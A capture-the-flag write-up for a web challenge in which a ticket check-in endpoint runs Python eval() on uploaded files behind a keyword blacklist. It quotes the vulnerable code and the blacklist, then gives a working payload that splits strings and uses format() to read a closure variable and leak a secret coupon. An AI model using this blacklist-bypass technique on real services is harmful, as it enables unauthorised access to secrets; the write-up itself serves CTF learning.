

# Tickets
## Challenge Info

**Category:** Web Exploitation   
**Points:** 250   
**Challenge Description:**
```
I heard there was a Travis concert coming up, and the tickets are out live. Check it out! https://encryptid-tickets.onrender.com/
```

## Recon
We've been given a website along with its source code for the challenge. It's a platform to book tickets for an upcoming Travis Scott concert. There are two options:   
1. Book a ticket and download the `.tkt` file.
2. Upload your `.tkt` file on the **Check In** endpoint.


The downloaded ticket follows this format:   
```
$ cat ~/Downloads/ticket.tkt 
{'id': '99247', 'name': 'j0xnd03', 'level': 'VIP'}
```

If we upload the same ticket to the **Check In** endpoint, it simply shows us a message that we have been verified and nothing special happens.

## Vulnerabilities
Let's now analyze the source code.

The code for the **Check In** endpoint looks very fishy, and there is a very clear vulnerability here. After making some basic blacklist and security checks, it directly runs `eval()` on the contents of the `ticket.tkt` file!

```py
def _build_checker():
    secret = open('/app/coupon.txt', 'r').read().strip()
    def check(value):
        return value == secret
    return check

checker = _build_checker()

...

try:
    if not content.isascii():
        return f"<p>ASCII only. Cute try, though.</p>"
    if len(content) > MAX_LEN:
        return f"<p>Ticket too large to verify.</p>"
    for word in BLACKLIST:
        if word in content:
            return f"Hacking attempt detected. Touch some grass >:("

    ticket = eval(content) <-- VULN!! :P

    if "coupon" in ticket:
        if checker(ticket['coupon']):
            return f"""
            <h1>Welcome, Master.</h1>
            <p>Please accept this gift of ours: {FLAG}"""
    return """
        <h1>Verified!</h1>
        <p>You are now checked in.</p>"""
except Exception as e:
    print(e)
    return f"<p>Invalid ticket.</p>"

...
```

So, if we create a payload in our **ticket.tkt** file such that it bypasses all the blacklist checks, and yet contains malicious python code, we will be able to get remote code execution on the server!

Further, if the output of `eval(content)` returns a dictionary, and that dictionary has an item called `coupon`, then the value of that coupon will be compared with the coupon stored in the file `/app/coupon.txt` (as can be seen in the checker function). If they match, the website returns the flag.


To understand how to build the payload, let's look at the blacklist:

```
BLACKLIST = [
    '__', 'import', 'globals', 'subprocess', 'open', 'chr', 'getattr',
    'lambda', 'read', 'eval', 'exec', 'compile', 'vars', 'dir', 'print',
    'input', 'type', 'help', 'VVIP_COUPON', 'locals', 'builtins', 'os',
    'sys', '\\', 'breakpoint', 'license', 'credits', 'quit', 'exit',
    'setattr', 'delattr', 'format_map', 'bytes', 'bytearray',
    'memoryview', 'super', 'classmethod', 'staticmethod', 'property',
    'coupon'
]
```

We need to make a payload such that none of these words/strings appear in it. Also, we know that the coupon is present in `/app/coupon.txt`. Given the blacklist, it's very difficult to create a payload that reads this file. Instead, a simpler way would be to reuse existing code. Take a look at this again:

```py
def _build_checker():
    secret = open('/app/coupon.txt', 'r').read().strip()
    def check(value):
        return value == secret
    return check

checker = _build_checker()
```

The `_build_checker` function has a local variable called **secret**, which contains the coupon. After `_build_checker` stops running, its inner function, `check()`, still remains intact because it is now being referenced as `checker`. This means that the `secret` variable still exists in a property of the function called `__closure__`.

> *When an outer function finishes executing, its local scope is normally destroyed. However, if an inner function captures a variable from that outer scope, Python creates a cell object to keep a reference to that variable alive. The __closure__ attribute holds these cell objects.*

If we can somehow access `checker.__closure__[0].cell_contents`, it will simply return the contents of the `secret` variable, which contains the coupon! So, we might try something like:

```py
{"coupon": checker.__closure__[0].cell_contents}
```

However, the blacklist blocks the double underscore, as well as the substring "os" (the word closure contains the substring "os", so it gets blacklisted too). It's really easy to bypass this blacklist, and build the final payload:

```py
{"c"+"oupon":("{0."+("_"*2+"cl"+"o"+"sure"+"_"*2)+"[0].cell_contents}").format(checker)}
```

> ***Note**: There are probably many more ways to solve this challenge that are much more straightforward, like getting access to **\_\_globals\_\_**, getting RCE, etc. However, I found this method quite interesting and worth mentioning in the writeup. If you found some other interesting way to solve it, drop us a DM!*

Finally, we upload the payload to the server using the **Check In** endpoint and get the flag!



## Flag
```
encryptid{c0nc3rt_c4nc3ll3d_1_gu355}
```

*Writeup written by Shyamak Seth*
